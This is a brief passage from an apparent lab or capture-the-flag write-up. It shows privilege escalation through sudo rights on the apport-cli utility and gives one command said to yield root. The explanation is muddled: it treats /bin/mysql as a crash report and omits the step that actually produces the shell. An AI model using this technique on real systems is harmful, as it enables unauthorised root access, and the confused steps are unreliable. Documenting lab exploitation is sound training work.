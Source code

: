 Once log in, I run `sudo -l` to check my privileges.

I have sudo with the apport-cli utility.

A vulnerability exists in version 2.26.0 and earlier.

I find the crash report I need in /bin/mysql less, and run my command to get root.

```bash
sudo apport-cli -c /bin/mysql less
```

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

